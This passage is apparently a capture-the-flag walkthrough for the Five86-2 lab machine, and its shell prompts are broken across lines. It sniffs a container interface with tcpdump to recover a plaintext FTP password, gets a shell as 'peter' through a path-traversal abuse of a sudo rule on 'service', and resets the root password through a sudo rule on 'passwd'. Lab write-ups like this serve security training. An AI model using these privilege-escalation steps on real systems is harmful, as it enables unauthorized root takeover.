





5.1 Inspet traffic
a) inspect “vethf5702ff” traffic if possible, and save the output in a pcap file “cap.pcap”.
stephen@five86-2
:/
home$
cd
stephen
stephen@five86-2
:
~$ timeout 150 tcpdump -w cap.pcap -i vethf5702ff
b) Open “cap.pcap” file with "tcpdump".
stephen@five86-2
:
~$ tcpdump -r cap.pcap
Output:

We there's a FTP Server running and “paul” has access.
c) Change user to “paul”.
Username: paul
Password: esomepasswford
stephen@five86-2
:
~$
su
paul
Output:
paul@five86-2:/home/stephen$
d) Check out “paul” user “sudo” permissions.
paul@five86-2
:/
home
/
stephen$
sudo
-l
Output:

We see “paul” has “sudo” permission to run “/usr/sbin/service” program as “peter”.
e) Run this command to get a shell as “peter”.
paul@five86-2
:/
home
/
stephen$
sudo
-u peter service ..
/
..
/
bin
/sh
$
id
Output:

e) Check out “peter” user “sudo” permissions.
$
sudo
-l
Output:

“peter” owns “sudo” right for “/usr/bin/passwd” as root, so we can change the “root” password.
f) Change “root” password.
New password: toor
$
sudo
-u root
passwd
root
Output:

Index